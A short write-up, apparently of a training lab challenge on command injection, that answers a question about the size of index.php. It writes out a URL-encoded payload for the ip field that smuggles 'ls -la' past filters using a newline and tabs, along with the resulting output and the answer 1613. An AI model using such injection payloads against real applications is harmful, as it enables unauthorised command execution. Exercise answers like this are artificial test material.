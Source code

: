 ## Challenge

Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file? 

## Solution

I use the following command:

```sh
ip=127.0.0.1%0a%09ls%09-la
```

which executes the command `ls -la`, and provides me with the answer:

```sh
1613 Jul 16  2021 index.php
```

so the answer is `1613`.

